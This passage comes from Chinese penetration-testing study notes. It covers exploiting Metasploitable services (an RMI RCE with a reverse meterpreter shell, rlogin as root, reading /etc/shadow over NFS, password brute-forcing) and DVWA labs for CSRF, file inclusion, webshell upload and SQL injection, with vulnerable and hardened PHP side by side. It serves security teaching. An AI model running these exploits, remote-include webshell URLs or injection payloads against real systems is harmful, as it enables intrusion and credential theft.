  - 在Metasploit中show info可以查看漏洞信息。
  - 修复方案：升级samba。


### rlogin漏洞利用

- rlogin介绍
  - 远程登录（rlogin）是一个UNIX命令，它允许授权用户进入网络中的其它UNIX机器并且就像用户在现场操作一样。一旦进入主机，用户可以操作主机允许的任何事情。**默认512、513端口**
- 探测目标rlogin
  - 使用 `nmap -sV -p 512,513 IP地址`探测目标login版本信息。
  - 512用于对远程执行的进程进行验证、513反弹bash shell。
- rlogin最高权限登录
  - 使用 `rlogin -l root IP地址`使用root权限登录系统
- 防御修复
  1. 添加root登录验证密码。
  2. 关闭rlogin服务，改用ssh等来管理服务器。


### 反序列化远程命令执行漏洞

- Java rmi介绍

  - Java RMI指的是远程方法调用（Remote     Method Invocation）。它是一种机制，能够让在某个Java虚拟机上的对象调用另一个Java虚拟机中的对象上的方法。
  - RMI是J2SE的一部分，能够让程序员开发出基于JAVA的分布式应用。一个RMI对象是一个远程JAVA对象，可以从另一个JAVA虚拟机上（甚至跨过网络）调用它的方法，可以像调用本地JAVA对象的方法一样调用远程对象的方法，使分布在不同的JVM中的对象的外表和行为都像本地对象一样。
  - 对于任何一个以对象为参数的RMI接口，你都可以发一个自己构建的对象，迫使服务器端将这个对象按任何一个存在于class     path中的可序列化类来反序列化。
  - RMI的传输100%基于反序列化。
  - **默认端口1099**

- 探测目标rmi

  - 使用`nmap -sV -p 1099 IP地址`探测目标的版本信息。

- rmi远程命令执行利用

  - 使用Metasploit 对rmi RCE漏洞利用。

    ```
    use exploit/multi/misc/java_rmi_server 
    set rhosts 192.168.43.235
    set lhost 192.168.43.80
    show payloads 
    set payloads java/meterpreter/reverse_tcp
    exploit 
    sessions -l
    sessions -i 1
    ```

- 防御修复

  1. 存在反序列化传输。【特别注意是否会执行系统命令】
  2. 存在有缺陷的第三方库如commons-collections，及时升级库。


### 后门连接

- 后门连接探测
  - 某些情况下，服务器可能已经存在某些后门。可以使用Nmap进行探测。`nmap -sV 192.168.43.235 -p 某些端口`
- nc连接后门获取权限
  - `nc 目标IP 端口号`连接后门程序


### NFS漏洞利用

- NFS介绍

  - NFS（Network File System）即网络文件系统，是FreeBSD支持的文件系统中的一种，它允许网络中的计算机之间通过TCP/IP网络共享资源。在NFS的应用中，本地NFS的客户端应用可以透明地读写位于远端NFS服务器上的文件，就像访问本地文件一样。**默认2049端口**

- 探测目标NFS

  - `nmap --script=nfs-* IP地址`

- 探测NFS是否可以导出

  - 使用showmount命令确是"/"共享（文件系统的根）是否正在导出。可能需要安装nfs-common包才能使用“showmount”
    - `apt-get install nfs-common`
    - `showmount -e IP地址`

- 查看导出内容

  ```
  mkdir nfs_root
  mount -t nfs IP地址:/ ~/nfs_root -o nolock
  cat ~/nfs_root/etc/shadow         #查看密码文件
  ```


### proFTPD漏洞利用

- proFTPD介绍
  - ProFTPD：一个Unix平台上或是类Unix平台上（如Linux，FreeBSD等）的FTP服务器程序[http://www.proftpd.org/](http://www.proftpd.org/) **默认端口2121**
- 探测目标proFTPD
  - 使用`nma -sV -p 2121 IP地址`探测目标proftpd版本信息。
- exploit-db搜索目标漏洞
  - 在[https://www.exploit-db.com/](https://www.exploit-db.com/)输入对应软件及版本搜索是否有漏洞。
- msf暴力破解密码
  - 使用metasploit下的**auxiliary/scanner/tp/ftp_login** 进行目标探测。


### MySQL漏洞利用

- MySQL介绍
  - MySQL是个关系型数据库管理系统，由瑞典MySQLAB公司开发，目前属于Oracle旗下产品。
  - MySQL是最流行的关系型数据库管理系统之一，在WEB应用方面，MySQL是最好的RDBMS（Relational     Database Management System，关系数据库管理系统）应用软件。
  - MySQL是一种关系数据库管理系统，关系数据库将数据保存在不同的表中，而不是将所有数据放在一个大仓库内，这样就增加了速度并提高了灵活性。
  - 官网：[https://www.mysql.com/](https://www.mysql.com/)
  - **默认端口****3306**
- 探测目标mysql
  - 使用`nmap -sV -p 3306 IP地址`探测目标mysql版本信息。
- msf破解mysql密码
  - 使用msf下的mysql_login模块破解mysql登录用户名和密码。
- 登录数据库查看数据
  - 使用`mysq -h IP地址 -u root`登录数据库系统


### postgresql漏洞利用

- postgresql介绍
  - PostgreSQL是以加州大学伯克利分校计算机系开发的POSTGRES，现在已经更名为PostgreSQL，版本4.2为基础的对象关系型数据库管理系统（ORDBMS）。PostgreSQL支持大部分SQL标准并且提供了许多其他现代特性：复杂查询、外键、触发器、视图、事务完整性、MVCC。同样，PostgreSQL可以用许多方法扩展，比如，通过增加新的数据类型、函数、操作符、聚集函数、索引。免费使用、修改、和分发PostgreSQL，不管是私用、商用、还是学术研究使用。**默认端口5432**
  - [https://www.postgresql.org/](https://www.postgresql.org/)
- 探测目标postgresql
  - 使用`nmap -sV -p 5432 IP地址`探测目标postgresql版本信息。
- msf暴力破解postgresql
  - 在msf下使用postgresql_login模块破解系统登录用户名和密码。
- 登录数据库查看数据
  - 利用pgadmin客户端软件登陆postgresql
- postgresql代码执行利用
  - 利用msf下postgresql的代码执行获得反弹shell。`use exploit/linux/postgres/postgres_payload`
- 防御修复
  - 防御：屏蔽任意IP连接Postgresql
  - 修复：升级版本，安全配置


### VNC漏洞利用

- VNC介绍
  - VNC（Virtial Network     Console）是虚拟网络控制台的缩写。它是一款优秀的远程控制工具软件，由著名的AT&T的欧洲研究实验室开发的。可视化控制，类似于远程桌面，**默认vnc服务端运行在5900端口**
- 探测目标vnc
  - 使用`nmap -sV -p 5900 IP地址`探测目标vnc版本信息。
- msf破解vnc密码
  - 在msf下vnc_login模块可用来对vnc服务端认证用户名和密码进行破解。
- vnc客户端登陆
  - windows下安装vnc viewer客户端软件连接VNC服务端。


### IRC漏洞利用

- IRC介绍
  - IRC是Internet Relay     Chat的英文缩写，中文一般称为互联网中继聊天。它是由芬兰人Jarkko     Oikarinen于1988年首创的一种网络聊天协议。经过十年的发展，目前世界上有超过60个国家提供了IRC的服务。IRC的工作原理非常简单，您只要在自己的PC上运行客户端软件，然后通过因特网以IRC协议连接到一台IRC服务器上即可。它的特点是速度非常之快，聊天时几乎没有延迟的现象，并且只占用很小的带宽资源。所有用户可以在一个被称为"Channel”（频道）的地方就某一话题进行交谈或密谈。每个IRC的使用者都有一个Nickname（昵称）。
  - **默认情况下，irc服务器运行在6667端口。**
- 探测目标irc
  - 使用`nmap -sV -p 6667 IP地址`探测目标irc版本信息。
- msf利用irc后门
  - 使用searchsploit查找可以利用的POC。 `searchsploit irc版本`
  - 利用msf中对于irc后门连接的模块，连接shell。`use exploit/unix/irc/unreal_ircd_3281_backdoor`
- 防御修复
  1. 升级软件版本
  2. 更换其他软件


### Tomcat漏洞利用

- tomcat介绍
  - Tomcat服务器是一个免费的开放源代码的Web应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP程序的首选。**默认情况下，8180端口是tomcat管理的HTTP端口。**
- 探测目标tomcat
  - 使用`nmap -sV -p 8180 IP地址`探测目标tomcat版本信息。
- msf破解tomcat密码
  - msf下的`auxiliary/scanner/http/tomcat_mgr_login` 模块来对tomcat管理登陆密码进行破解。
- msf利用tomcat管理
  - 在msf下可以使用`use exploit/multi/http/tomcat_mgr_deploy`模块利用tomcat upload功能反弹shell。


## 第七阶段-DVWA

### 介绍

- Web应用程序（DVWA）是一个PHP/MySQL Web应用程序。它的主要目标是帮助安全专业人员在合法环境中测试他们的技能和下具，帮助web开发人员更好地理解保护web应用程序的过程，并帮助教师/学生在教室环境中教授/学习web应用程序安全性。[http://www.dvwa.co.uk/](http://www.dvwa.co.uk/)

### 实验环境操作

- 默认情况下，DVWA系统登陆的用户admin，密码password

### 参考教程

- [https://www.freebuf.com/author/lonehand](https://www.freebuf.com/author/lonehand)

### 切换难度操作

- DVWA环境中可以通过DVWA Security难度按钮，切换不同的难度。

### home介绍

- DVWA的目的是实践一些最常见的Web漏洞，具有各种各样的困难级别。DVWA还包括一个Web应用防火墙（WAF），PHPID，它可以在任何阶段启用，以进一步增加难度。这将演示如何添加另一层安全性可以阻止某些意行为。注意，也有各种公共方法绕过这些保护（因此，这可以看作是对更高级用户的扩展）！在每个页而的底部都有一个帮助按钮，它可以让您查看该漏洞的提示和提示。还有更多的链接用于进一步的背景阅读，这涉及到安全问题。

### Brute Force暴力破解

- 利用BurpSuite进行暴力破解
- 防御：
  1. 设置token机制，设置验证码
  2. 设置登录失败次数和锁定时间
  3. 过滤用户输入，防止SQL注入


### Command Injection命令执行

- Comimand Injection，即命令注入，是指通过提交恶意构造的参数破坏命令语句结构，从而达到执行恶意命令的目的。
- Windows下执行下列命令：
  - 执行ping 127.0.0.1 && ipconfig，依次执行两条命令
  - 执行ping 127.0.0.1 || ipconfig，若第一条命令正确，则只执行第一条命令；若错误则执行下一条命令
  - 执行ping 127.0.0.1 | ipconfig，只执行第二条命令
  - 执行ping 127.0.0.1 ; ipconfig，Windows下";"为错误参数
- 防御：
  1. 过滤黑名单
  2. 替换、转义关键字
  3. 对于IP地址，可以用"."为分界，将所有数字拆分到数组，单个判断是否为数字is_numeric()


### CSRF跨站伪造请求攻击

- CSRF介绍
  - CSRF，全称Cross-site request forgery，翻译过来就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。


- CSRF-**low级别**漏洞利用

  - 构造恶意链接：`http://none.org.cn:81/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#`
  - 当用户在当前cookie没有过期时，点击该链接完成用户密码修改
  - 使用短链接伪装[http://dwz.cn](http://dwz.cn)
  - 当然，也可以在burp上构造poc，选中截断的内容，右键Engagement===>Generate CSRF poC


- CSRF-**low级别**漏洞高级利用

  - 构造恶意页面，使用img标签隐藏真实目的

  ```
  
  
  <h1>404<h1>
  
  <h2>file not found.<h2>
  ```

  - 用户使用浏览器访问该页面时，就会被修改。

  - 注意：如果用户用A浏览器访问站点，又使用B浏览器访问恶意页面，不会触发漏洞。


- CSRF-**medium级别**漏洞利用
  - 过滤规则是http包头的Referer参数的值中必须包含服务器的主机名
  
  - 这里可以将攻击页面命名为none.org.cn.html，然后通过链接跳转到此页面就可以绕过了
  


- CSRF-**high级别**漏洞利用
  - High级别的代码加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器会返回一个随机的token，向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。
  
  - 只有获取token才能进行CSRF，但是浏览器存在同源策略，不能直接获取，所以比较难以利用。但是如果服务器存在存储XSS可以来获取token。然后构造url和代码进行CSRF利用。
  
  - 一般情况下，在CSRF中使用token，可以防御大部分CSRF利用。
  


- CSRF-**impossible级别**【防御】
  
  - Impossible级别的代码，加入了Anti-CSRF token机制，利用PDO技术防御SQL注入，至于防护CSRF，则要求用户输入原始密码（简单粗暴），攻击者在不知道原始密码的情况下，无论如何都无法进行CSRF攻击。


### File Inclusion文件包含

- 文件包含漏洞介绍

  - **文件包含：**开发人员将相同的函数写入单独的文件中,需要使用某个函数时直接调用此文件,无需再次编写,这种文件调用的过程称文件包含。
  - File Inclusion，意思是文件包含（漏洞），是指当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。
  - 文件包含漏洞通常配合文件上传来获取webshell
  - **目录遍历与文件包含的区别：**目录遍历是可以读取web目录以外的其他目录,根源在于对路径访问权限设置不严格，针对本系统。文件包含是利用函数来包含web目录以外的文件，分为本地包含和远程包含。

- 特征：

  ```
  ?page=a.php
  ?home=b.html
  ?file=content
  ```

- 检测：

     ```
     ?file=../../../../etc/passwd
     ?page=file:///etc/passwd
     ?home=main.cgi
     ?page=http://www.a.com/1.php
     http://1.1.1.1/../../../../dir/file.txt
     ```


- File Inclusion_**low级别**漏洞利用
  
  - 构造远程url，`page=http://恶意ip/shell.php`这里shell.php的后缀名为任意的组合，比如.txt，都会被尝试执行php。如果shell中不是php内容，则会直接显示对应的内容。
  


- File Inclusion_**medium级别**代码分析

  ```php
  <?php
  // The page we wish to display
  $file = $_GET[ 'page' ];
  // Input validation
  $file = str_replace( array( "http://", "https://" ), "", $file );
  $file = str_replace( array( "../", "..\"" ), "", $file );
  ?> 
  ```
  
    - 使用了str_replace()函数将"http://","https://","../","..\"替换成空字符
  


- File Inclusion_**medium级别**漏洞利用

    - 使用str_replace函数是极其不安全的，因为可以使用**大小写绕过**或者是**双写绕过**替换规则。例如：`page=hthttps://tps://none.org.cn/test.txt`时，str_replace函数会将http://删除，于是剩余内容拼接成`page=https://none.org.cn/test.txt`，或用大小写绕过`page=Https://none.org.cn/test.txt`，成功执行远程命令。例如：`http://none.org.cn:81/vulnerabilities/fi/?page=..././..././..././etc/passwd`


- File Inclusion_**high级别**代码分析

  ```php
  <?php
  // The page we wish to display
  $file = $_GET[ 'page' ];
  // Input validation
  if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
      // This isn't the page we want!
      echo "ERROR: File not found!";
      exit;
  }
  ?> 
  ```

    - 分析源码，意思是在参数不为include.php时，且参数不以file开头，则报错；确保了\$file是以file开头。于是，我们可以利用 file 协议包含本地文件进行绕过，然后配合文件上传漏洞进行利用。


- File Inclusion_**high级别**漏洞利用

    - `http://none.org.cn:81/vulnerabilities/fi/?page=file:///etc/passwd`


- File Inclusion_**impossible级别**代码分析&【防御】

  ```php
  <?php
  // The page we wish to display
  $file = $_GET[ 'page' ];
  // Only allow include.php or file{1..3}.php
  if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
      // This isn't the page we want!
      echo "ERROR: File not found!";
      exit;
  }
  ?> 
  ```

  - 基于白名单进行防御，确保page参数传递的只能是固定的文件名。


### File Upload文件上传

- 文件上传漏洞介绍
  
- File Upload，即文件上传漏洞，通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得可以通过上传webshell获取服务器权限，因此文件上传漏洞带来的危害常常是毁灭性的。
  
  - 文件上传漏洞的利用是有限制条件的，首先当然是要能够**成功上传木马文件**，其次**上传文件必须能够被执行**，最后就是上**传文件的路径必须可知**。
  


- File Upload_**low级别**代码分析&漏洞利用

  ```php
  <?php
  if( isset( $_POST[ 'Upload' ] ) ) {
      // Where are we going to be writing to?
      $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
      $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );
      // Can we move the file to the upload folder?
      if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
          // No
          echo '<pre>Your image was not uploaded.</pre>';
      }
      else {
          // Yes!
          echo "<pre>{$target_path} succesfully uploaded!</pre>";
      }
  }
  ?> 
  ```
  - basename(path,suffix) 函数，返回path中的文件名部分，如果可选参数suffix为空，则返回的文件名中包含后缀名，反之不包含后缀名。可以看到，服务器对上传文件的类型、内容没有做任何的检查、过滤，存在明显的文件上传漏洞，生成上传路径后，服务器会检查是否上传成功并返回相应提示信息。
  


- File Upload_**medium级别**代码分析

  ```php
  <?php
  if( isset( $_POST[ 'Upload' ] ) ) {
      // Where are we going to be writing to?
      $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
      $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );
      // File information
      $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
      $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
      $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
      // Is it an image?
      if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
          ( $uploaded_size < 100000 ) ) {
  
          // Can we move the file to the upload folder?
          if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
              // No
              echo '<pre>Your image was not uploaded.</pre>';
          }
          else {
              // Yes!
              echo "<pre>{$target_path} succesfully uploaded!</pre>";
          }
      }
      else {
          // Invalid file
          echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
      }
  }
  ?>
  ```
  - 可以看到，Medium级别的代码对上传文件的类型、大小做了限制，要求文件类型必须是jpeg或者png，大小不能超过100000B（约为97.6KB）。


- File Upload_**medium级别**漏洞利用

  - **抓包修改文件类型**，将shell文件的后缀改为png后上传以绕过限制，然后用burpsuite抓包将文件后缀改回php，然后用蚁剑连接即可。

  

  

  - **配合文件包含进行利用**，在shell文件头添加**GIF98**，后缀改为jpg然后上传即可，配合上文件包含漏洞`http://none.org.cn:81/vulnerabilities/fi/?page=hTTp://none.org.cn:81/hackable/uploads/test2.jpg`加上cookie后用蚁剑连接即可。


- File Upload_**high级别**代码分析

  ```php
  <?php
  if( isset( $_POST[ 'Upload' ] ) ) {
      // Where are we going to be writing to?
      $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
      $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );
      // File information
      $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
      $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
      $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
      $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];
      // Is it an image?
      if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
          ( $uploaded_size < 100000 ) &&
          getimagesize( $uploaded_tmp ) ) {
  
          // Can we move the file to the upload folder?
          if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
              // No
              echo '<pre>Your image was not uploaded.</pre>';
          }
          else {
              // Yes!
              echo "<pre>{$target_path} succesfully uploaded!</pre>";
          }
      }
      else {
          // Invalid file
          echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
      }
  }
  ?> 
  ```
  - getimagesize(string filename)函数会通过读取文件头，返回图片的长、宽等信息，如果没有相关的图片文件头，函数会报错。代码使得上传的后缀名只能是jpg、jpeg、png，否则上传失败。其中getimagesize用来检测文件头。
  


- File Upload_**high级别**漏洞利用

  - 在shell文件头添加**GIF98**以绕过文件头检测，后缀改为jpg然后上传即可，接着利用文件包含漏洞`http://none.org.cn:81/vulnerabilities/fi/?page=file:///var/www/html/hackable/uploads/test3.jpg`加上cookie后用蚁剑连接即可。

  - 利用**图片马**绕过，cmd输入`copy 5.jpg /b + test3.txt /a shell.jpg`得到shell.jpg然后上传，接着利用文件包含漏洞`http://none.org.cn:81/vulnerabilities/fi/?page=file:///var/www/html/hackable/uploads/shell.jpg`加上cookie后用蚁剑连接即可。

    ```
    copy 5.jpg /b + test3.txt /a shell.jpg
    使用CMD制作一句话图片马。
    参数/b指定以二进制格式复制、合并文件，用于图像类/声音类文件
    参数/a指定以ASCII格式复制、合并文件，用于txt等文档类文件
    ```
    
  


- File Upload_**impossible级别**代码分析&【防御】

  1. 取文件最后的扩展名。

     ```php
     $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
     ```

  2. 对上传文件进行重命名（为md5值，使得%00截断无法绕过过滤规则）。

     ```php
     $temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
     ```

  3. 采取白名单方式验证文件的后缀名，MIME-TYPE类型，以及文件大小。以及检查是否为真正图片。

     ```php
     if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) &&
             ( $uploaded_size < 100000 ) &&
             ( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) &&
             getimagesize( $uploaded_tmp ) )
     ```

  4. GD库或image-magick进行二次渲染，洗掉图片中的恶意代码。

     ```php
     $img = imagecreatefrompng( $uploaded_tmp );
     ```

  5. 采用相对路径回显到前端页面。

     ```php
      if( rename( $temp_file, ( getcwd() . DIRECTORY_SEPARATOR . $target_path . $target_file ) ) )
     ```

  6. 加入Anti-CSRF token防护CSRF攻击。

     ```php
     checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
     ```

  

  
  ```php
  <?php
  if( isset( $_POST[ 'Upload' ] ) ) {
      // Check Anti-CSRF token
      checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
  
      // File information
      $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
      $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
      $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
      $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
      $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];
  
      // Where are we going to be writing to?
      $target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
      //$target_file   = basename( $uploaded_name, '.' . $uploaded_ext ) . '-';
      $target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
      $temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
      $temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
  
      // Is it an image?
      if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) &&
          ( $uploaded_size < 100000 ) &&
          ( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) &&
          getimagesize( $uploaded_tmp ) ) {
  
          // Strip any metadata, by re-encoding image (Note, using php-Imagick is recommended over php-GD)
          if( $uploaded_type == 'image/jpeg' ) {
              $img = imagecreatefromjpeg( $uploaded_tmp );
              imagejpeg( $img, $temp_file, 100);
          }
          else {
              $img = imagecreatefrompng( $uploaded_tmp );
              imagepng( $img, $temp_file, 9);
          }
          imagedestroy( $img );
  
          // Can we move the file to the web root from the temp folder?
          if( rename( $temp_file, ( getcwd() . DIRECTORY_SEPARATOR . $target_path . $target_file ) ) ) {
              // Yes!
              echo "<pre><a href='${target_path}${target_file}'>${target_file}</a> succesfully uploaded!</pre>";
          }
          else {
              // No
              echo '<pre>Your image was not uploaded.</pre>';
          }
  
          // Delete any temp files
          if( file_exists( $temp_file ) )
              unlink( $temp_file );
      }
      else {
          // Invalid file
          echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
      }
  }
  // Generate Anti-CSRF token
  generateSessionToken();
  ?> 
  ```


### SQL Injection注入

- SQL注入介绍
  
  - SQL Injection，即SQL注入，是指攻击者通过注入恶意的SQL命令，破坏SQL查询语句的结构，从而达到执行恶意SQL语句的目的。就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
  
- 形成SQL注入漏洞的原因：
  1. 用户输入不可控
  2. 输入内容被带入SQL语句执行
  
- 字符型注入or数字型注入判断

  - 当输入的参数为字符串时，并且存在注入，可称为字符型注入，字符型和数值型的区别在于数值不需要单引号闭合，而字符型都需要单引号闭合。

  - 例如：

    - 字符型：`select * from news where user='admin';`

    - 数字型：`select * from news where id=1;`

    以上可以看出，在构造payload的时，若注入`1'`报错，`1' #`不报错，则为字符型注入；若两个都报错则为数字型注入。（在符号未被转义的情况下，可以通过此方法简单判断）
  
- SQL注入可以使用自动化的注入神器[sqlmap](http://sqlmap.org/)进行自动化注入，下面只是简要介绍手工注入，具体内容可以查看[freebuf教程](https://www.freebuf.com/articles/web/120747.html)。

- SQL Injection_**low级别**代码分析

  ```php
  <?php
  if( isset( $_REQUEST[ 'Submit' ] ) ) {
      // Get input
      $id = $_REQUEST[ 'id' ];
      // Check database
      $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
      $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
      // Get results
      $num = mysql_numrows( $result );
      $i   = 0;
      while( $i < $num ) {
          // Get values
          $first = mysql_result( $result, $i, "first_name" );
          $last  = mysql_result( $result, $i, "last_name" );
          // Feedback for end user
          echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
          // Increase loop count
          $i++;
      }
      mysql_close();
  }
  ?>
  ```
  - 可以看到，Low级别的代码对来自客户端的参数id没有进行任何的检查与过滤，存在明显的SQL注入。


- SQL Injection_**low级别**漏洞利用

  - 直接注入：`' or 1=1 #`，可以看到返回了多个结果，说明存在字符型注入。

  


- SQL Injection_**medium级别**代码分析

  ```php
  <?php
  if( isset( $_POST[ 'Submit' ] ) ) {
      // Get input
      $id = $_POST[ 'id' ];
      $id = mysql_real_escape_string( $id );
      // Check database
      $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
      $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
      // Get results
      $num = mysql_numrows( $result );
      $i   = 0;
      while( $i < $num ) {
          // Display values
          $first = mysql_result( $result, $i, "first_name" );
          $last  = mysql_result( $result, $i, "last_name" );
          // Feedback for end user
          echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
          // Increase loop count
          $i++;
      }
      //mysql_close();
  }
  ?>
  ```
  - 可以看到，Medium级别的代码利用mysql_real_escape_string函数对特殊符号\x00，\n，\r，\，'，"，\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。

  


- SQL Injection_**medium级别**漏洞利用

  - 虽然前端使用了下拉选择菜单，但我们依然可以通过抓包改参数，提交恶意构造的查询参数。
  - 抓包更改参数`' or 1=1 #`时报错，改为`1 or 1=1 #`，查询成功，说明存在数字型注入。
  - 针对这里的特殊符号转义，单引号被转义变成了\\'，但是可以将参数转换为16进制进行绕过。例如：`table_name='users'`变成`table_name=0x7573657273`

  


- SQL Injection_**high级别**代码分析

  ```php
  <?php
  if( isset( $_SESSION [ 'id' ] ) ) {
      // Get input
      $id = $_SESSION[ 'id' ];
      // Check database
      $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
      $result = mysql_query( $query ) or die( '<pre>Something went wrong.</pre>' );
      // Get results
      $num = mysql_numrows( $result );
      $i   = 0;
      while( $i < $num ) {
          // Get values
          $first = mysql_result( $result, $i, "first_name" );
          $last  = mysql_result( $result, $i, "last_name" );
          // Feedback for end user
          echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
          // Increase loop count
          $i++;
      }
      mysql_close();
  }
  ?> 
  ```
  - 可以看到，与low级别的代码相比，High级别的只是在SQL查询语句中添加了LIMIT 1，希望以此控制只输出一个结果。


- SQL Injection_**high级别**漏洞利用

  

  - 虽然添加了LIMIT 1，但是我们可以通过#将其注释掉。
  - 需要特别提到的是，High级别的查询提交页面与查询结果显示页面不是同一个，也没有执行302跳转，这样做的目的是为了防止一般的sqlmap注入，因为sqlmap在注入过程中，无法在查询提交页面上获取查询的结果，没有了反馈，也就没办法进一步注入。


- SQL Injection_**impossible级别**代码分析&【防御】

  ```php
  <?php
  if( isset( $_GET[ 'Submit' ] ) ) {
      // Check Anti-CSRF token
      checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
      // Get input
      $id = $_GET[ 'id' ];
      // Was a number entered?
      if(is_numeric( $id )) {
          // Check the database
          $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
          $data->bindParam( ':id', $id, PDO::PARAM_INT );
          $data->execute();
          $row = $data->fetch();
          // Make sure only 1 result is returned
          if( $data->rowCount() == 1 ) {
              // Get values
              $first = $row[ 'first_name' ];
              $last  = $row[ 'last_name' ];
              // Feedback for end user
              echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
          }
      }
  }
  // Generate Anti-CSRF token
  generateSessionToken();
  ?> 
  ```
  - 可以看到，Impossible级别的代码采用了PDO技术，划清了代码与数据的界限，有效防御SQL注入，同时只有返回的查询结果数量为1时，才会成功输出，这样就有效预防了“脱裤”，Anti-CSRFtoken机制的加入了进一步提高了安全性。
  - SQL注入防御：
    1. 过滤用户输入
    2. 使用预编译处理SQL语句（PDO 、Sqlparameter）
    3. 使用owasp等安全的sql处理API


### SQL Injection (Blind)盲注

- SQL Injection（Blind）介绍

  - SQL Injection（Blind），即SQL盲注，与一般注入的区别在于，一般的注入攻击者可以直接从页面上看到注入语句的执行结果，而盲注时攻击者通常是无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知，因此盲注的难度要比一般注入高。目前网络上现存的SQL注入漏洞大多是SQL盲注。

- 盲注的分类

  1. 基于时间的盲注，注意是否有延迟

     ```
     输入1  and sleep(5) #
     输入1' and sleep(5) #
     ```

  2. 基于布尔的盲注，注意返回结果是否相同

     ```
     输入1' and 1=1 #
     输入1' and 1=2 #
     ```


- SQL Injection(Blind)_**low级别**代码分析&漏洞利用

  ```php
  <?php
  if( isset( $_GET[ 'Submit' ] ) ) {
      // Get input
      $id = $_GET[ 'id' ];
      // Check database
      $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
      $result = mysql_query( $getid ); // Removed 'or die' to suppress mysql errors
      // Get results
      $num = @mysql_numrows( $result ); // The '@' character suppresses errors
      if( $num > 0 ) {
          // Feedback for end user
          echo '<pre>User ID exists in the database.</pre>';
      }
      else {
          // User wasn't found, so the page wasn't!
